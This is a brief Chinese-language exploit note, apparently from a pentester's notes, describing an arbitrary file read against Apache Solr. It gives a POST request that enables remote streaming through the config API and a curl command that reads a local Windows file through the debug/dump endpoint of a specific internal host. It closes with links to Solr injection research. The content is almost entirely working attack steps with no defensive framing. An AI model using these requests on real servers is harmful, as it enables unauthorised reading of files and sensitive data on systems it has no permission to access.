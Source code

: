 
## 任意文件读取
首先修改配置
```
POST /solr/db/config HTTP/1.1
Content-Type: application/json

{  "set-property" : {"requestDispatcher.requestParsers.enableRemoteStreaming":true}}
```
读取文件
```
curl "http://172.16.165.146:8983/solr/db/debug/dump?param=ContentStreams" -F "stream.url=file:///C:/Windows/win.ini"
```


## Solr资料
https://github.com/veracode-research/solr-injection

https://raw.githubusercontent.com/artsploit/solr-injection/master/slides/DEFCON-27-Michael-Stepankin-Apache-Solr-Injection.pdf

